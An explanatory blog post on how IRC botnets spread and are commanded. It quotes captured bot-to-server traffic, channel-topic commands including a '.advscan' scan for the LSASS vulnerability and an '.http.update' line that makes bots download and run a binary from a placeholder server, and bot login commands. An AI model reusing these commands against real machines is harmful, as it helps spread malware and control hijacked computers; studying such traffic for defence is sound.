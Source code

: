 ```yaml
---
layout: post
title:  "How Bots and Botnets work"
date:   2015-01-30 10:21:50
categories: anatomy
---
```


This section will in detail explain how bots spread and how they are controlled by their masters.

After successful exploitation, a bot uses Trivial File Transfer Protocol (TFTP), File Transfer Protocol (FTP), HyperText Transfer Protocol (HTTP), or CSend (an IRC extension to send files to other users, comparable to DCC) to transfer itself to the compromised host. The binary is started, and tries to connect to the hard-coded master IRC server. Often a dynamic DNS name is provided rather than a hard coded IP address, so the bot can be easily relocated. Some bots even remove themselves if the given master server is localhost or in a private subnet, since this indicates an unusual situations. Using a special crafted nickname like EU\|743634 or [UrX]-98439854 the bot tries to join the master's channel, sometimes using a password to keep strangers out of the channel. A typical communication that can be observed after a successful infection looks like:

{% highlight irc %}
<- :irc1.XXXXXX.XXX NOTICE AUTH :*** Looking up your hostname...
<- :irc1.XXXXXX.XXX NOTICE AUTH :*** Found your hostname
-> PASS secretserverpass
-> NICK [urX]-700159
-> USER mltfvt 0 0 :mltfvt
<- :irc1.XXXXXX.XXX NOTICE [urX]-700159 :*** If you are having problems connecting due to ping timeouts, please type /quote pong ED322722 or /raw pong ED322722 now.
<- PING :ED322722
-> PONG :ED322722
<- :irc1.XXXXXX.XXX 001 [urX]-700159 :Welcome to the irc1.XXXXXX.XXX IRC Network [urX]-700159!mltfvt@nicetry
<- :irc1.XXXXXX.XXX 002 [urX]-700159 :Your host is irc1.XXXXXX.XXX, running version Unreal3.2-beta19
<- :irc1.XXXXXX.XXX 003 [urX]-700159 :This server was created Sun Feb  8 18:58:31 2004
<- :irc1.XXXXXX.XXX 004 [urX]-700159 irc1.XXXXXX.XXX Unreal3.2-beta19 iowghraAsORTVSxNCWqBzvdHtGp lvhopsmntikrRcaqOALQbSeKVfMGCuzN
{% endhighlight %}

Afterwards, the server accepts the bot as a client and sends him RPL_ISUPPORT, RPL_MOTDSTART, RPL_MOTD, RPL_ENDOFMOTD or ERR_NOMOTD. Replies starting with RPL_ contain information for the client, for example RPL_ISUPPORT tells the client which features the server understands and RPL_MOTD indicates the Message Of The Day (MOTD). In contrast to this, ERR_NOMOTD is an error message if no MOTD is available. 

On RPL_ENDOFMOTD or ERR_NOMOTD, the bot will try to join his master's channel with the provided password:

{% highlight irc %}
-> JOIN #botnet channelpassword
-> MODE [urX]-700159 +x
{% endhighlight %}

The bot receives the topic of the channel and interprets it as a command:
{% highlight irc %}
<- :irc1.XXXXXX.XXX 332 [urX]-700159 #botnet :.advscan lsass 200 5 0 -r -s
<- :[urX]-700159!mltfvt@nicetry JOIN :#botnet
<- :irc1.XXXXXX.XXX MODE #botnet +smntuk channelpassword
{% endhighlight %}
Most botnets use a topic command like:

**1.**	`".advscan lsass 200 5 0 -r -s"`

**2.**	`".http.update http://<server>/~mugenxu/rBot.exe c:\msy32awds.exe 1"`

The first topic tells the bot to spread further with the help of the LSASS vulnerability[1]. 200 concurrent threads should scan with a delay of 5 seconds for an unlimited time (parameter 0). The scans should be random (parameter -r) and silent (parameter -s), thus avoiding too much traffic due to status reports. In contrast to this, the second example of a possible topic instructs the bot to download a binary from the web and execute it (parameter 1). And if the topic does not contain any instructions for the bot, then it does nothing but idling in the channel, awaiting commands. That is fundamental for most current bots: They do not spread if they are not told to spread in their master's channel.
Upon successful exploitation the bot will message the owner about it, if it has been advised to do so.

*Reference* [LSASS vulnerability](https://technet.microsoft.com/library/security/ms04-011)[1]

{% highlight irc %}
-> PRIVMSG #botnet :[lsass]: Exploiting IP: 200.124.175.XXX
-> PRIVMSG #botnet :[TFTP]: File transfer started to IP: 200.124.175.XXX (C:\WINDOWS\System32\NAV.exe).
{% endhighlight %}

Then the IRC server (also called IRC daemon, abbreviated IRCd) will provide the channels userlist. But most botnet owners have modified the IRCd to just send the channel operators to save traffic and disguise the number of bots in the channel.

{% highlight irc %}
<- :irc1.XXXXXX.XXX 353 [urX]-700159 @ #botnet :@JAH
<- :irc1.XXXXXX.XXX 366 [urX]-700159 #botnet :End of /NAMES list.
<- :irc1.XXXXXX.XXX NOTICE [urX]-700159 :BOTMOTD File not found
<- :[urX]-700159 MODE [urX]-700159 :+x
{% endhighlight %}

The controller of a botnet has to authenticate himself to take control over the bots. This authentication is done with the help of a command prefix and the "auth" command. The command prefix is used to login the master on the bots and afterwards he has to authenticate himself. For example,

{% highlight irc %}
.login leet0
.la plmp -s
{% endhighlight %}


are commands used on different bots to approve the controller. Again, the "-s" switch in the last example tells the bots to be silent when authenticating their master. Else they reply something like

{% highlight irc %}
[MAIN]: Password accepted.
[r[X]-Sh0[x]]: .:( Password Acepted ):. .
{% endhighlight %}

which can be a lot of traffic if you have 10,000 bots on your network. Once an attacker is authenticated, they can do whatever they want with the bots: Searching for sensitive information on all compromised machines and DCC-sending these files to another machine, DDoS-ing individuals or organizations, or enabling a keylogger and looking for PayPal or eBay account information. These are just a few possible commands, other options have been presented in the previous section. The IRC server that is used to connect all bots is in most cases a compromised box. This is probably because an attacker would not receive operator-rights on a normal chat network and thus has to set-up their own IRC server which offers more flexibility.

Two different IRC servers software implementation are commonly used to run a botnet: Unreal IRCd and ConferenceRoom:

* **Unreal IRCd[2]**

	It's cross-platform and can thus be used to easily link machines running Windows and Linux. The IRC server software is stripped down and modified to fit the botnet owner’s needs.
	Common modifications we have noticed are stripping "JOIN", "PART" and "QUIT" messages on channels to avoid unnecessary traffic. In addition, the messages "LUSERS" (information about number of connected clients) and "RPL_ISUPPORT" are removed to hide identity and botnet size. 
	Size comes in great value given that botnet with over 80k+ bots are used by cyber criminals for "professional" attacks probably being to most profitable of uses for botnets, also the riskier. These kind of networks can cause severe damage since they offer a lot of bandwidth and many targets for identity theft.
	
	*Reference*: [Unreal IRCd](http://www.unrealircd.com/)[2]

* **ConferenceRoom[3]**

	It's a commercial IRCd solution, but people who run botnets typically use a cracked version. ConferenceRoom offers the possibility of several thousand simultaneous connections, with nickname and channel registration, buddy lists and server to server linking.
	Since the people who run botnets often share the same motives (DDoS attacks or other crimes) every bot family has its own set of commands to implement the same goals. Agobot is really nice here: Just grep the source for RegisterCommand and get the whole command-list with a complete description of all features. Due to the lack of clean design, the whole SDBot family is harder to analyse. Often the command set is changed in various forks of the same bot and thus an automated analysis of the implemented commands is nearly impossible. 

	*Reference*: [ConferenceRoom](http://www.webmaster.com/) [3]